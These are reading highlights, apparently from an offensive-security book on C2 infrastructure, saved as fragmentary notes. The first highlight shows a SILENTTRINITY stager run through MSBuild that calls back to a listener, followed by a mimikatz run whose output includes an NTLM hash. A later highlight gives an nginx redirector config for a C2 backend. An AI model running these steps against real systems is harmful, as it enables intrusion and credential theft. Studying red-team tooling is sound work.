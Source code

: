 	- [1] ST (stagers) >> generate customListener [+] Generated stager to ./stager.xml If we take a closer look at the stager.xml file, we can see it embeds a base64-encoded version of an executable called naga.exe (SILENTTRINITY/core/teamserver/data/naga.exe), which connects back to the listener we set up and then downloads a ZIP file containing Boo-Lang DLLs and a script to bootstrap the environment. Once we compile and run this payload on the fly using MSBuild, we will have a full Boo environment running on the target’s machine, ready to execute whatever shady payload we send its way: # Start agent PS C:\> C:\Windows\Microsoft.Net\Framework\v4.0.30319\MSBuild.exe stager.xml [*] [TS-vrFt3] Sending stage (569057 bytes) ->  192.168.1.30... [*] [TS-vrFt3] New session 36e7f9e3-13e4-4fa1-9266-89d95612eebc connected! (192.168.1.30) [1] ST (listeners)(https) >> sessions [1] ST (sessions) >> list Name           >> User         >> Address     >> Last Checkin 36e7f9e3-13... >> *wk_adm@PIANO>> 192.168.1.3 >> h 00 m 00 s 04 Notice how, unlike with the other two frameworks, we did not bother customizing the payload to evade Windows Defender. It just works . . . for now! We can deliver any of the current 69 post-exploitation modules, from loading an arbitrary assembly (.NET executable) in memory to regular Active Directory reconnaissance and credential dumping: [1] ST (sessions) >> modules [1] ST (modules) >> use boo/mimikatz [1] ST (modules)(boo/mimikatz) >> run all [*] [TS-7fhpY] 36e7f9e3-13e4-4fa1-9266-89d95612eebc returned job result (id: zpqY2hqD1l) [+] Running in high integrity process--snip-- msv : [00000003] Primary * Username : wkadmin    * Domain   : PIANO.LOCAL * NTLM     : adefd76971f37458b6c3b061f30e3c42--snip-- The project is still very young, yet it displays tremendous potential. If you are a complete beginner, though, you may suffer from the lack of documentation and explicit error handling. The tool is still in ([Location 875](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=875))
	- ```
	- ```md
	- the tooling necessary to faithfully reproduce and automate almost every painful aspect of the manual setup. We’ll stick with ([Location 910](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=910))
	- ```
	- ```md
	- index index.html; server_name www.mydomain.com; # return 404 if no file or directory match location / { try_files $uri $uri/ =404; } # /msf URL gets redirected to our backend C2 framework location /msf { proxy_pass https://192.168.1.29:8443; proxy_ssl_verify off; proxy_set_header Host $host; proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for; ([Location 925](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=925))
	- ```
	- ```md
	- The solution is to package all your applications with all their dependencies properly installed and tuned to the right version. When you spin up a new machine, ([Location 948](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=948))
	- ```
	- ```md
	- one. It proceeds with its own boot sequence and loads the filesystem, scheduler, kernel structures, the whole nine yards. The guest system believes it is running on ([Location 967](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=967))
	- ```
	- ```md
	- understand how much blood and sweat were spared by these two commands. Of course, you may wonder, “How, in this new isolated environment, can we reach a listener from ([Location 1023](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=1023))
	- ```
	- ```md
	- the machine shows the default docker0 bridge with the allocated 172.17.0.0/16 IP range ready to be distributed across new containers: ([Location 1031](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=1031))
	- ```
	- ```md
	- 8500 on the host will map to ports 8400 to 8500 in the container: ([Location 1039](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=1039))
	- ```
	- ```md
	- reach a handler listening on any port between 8400 and 8500 inside the container by sending packets to the host’s IP address on that same port range. ([Location 1042](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=1042))
	- ```
	- ```md